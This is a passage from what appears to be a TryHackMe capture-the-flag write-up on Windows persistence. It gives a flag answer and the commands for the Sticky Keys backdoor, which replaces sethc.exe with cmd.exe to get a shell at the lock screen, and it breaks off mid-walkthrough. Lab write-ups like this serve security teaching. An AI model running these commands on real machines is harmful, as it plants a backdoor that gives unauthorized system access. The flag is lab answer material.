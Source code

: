 ![task7-flag2](./images/task7-flag2.png)

### Answer the questions below

* Insert flag14 here

    `THM{BREAKING_THROUGH_LOGIN}`

    * Setup Sticky Key to execute `cmd.exe`

        ```
        takeown /f c:\Windows\System32\sethc.exe
        icacls C:\Windows\System32\sethc.exe /grant Administrator:F
        copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
        ```

        ![task7-stickykey](./images/task7-stickykey.png)

    * Lock our session from the start menu

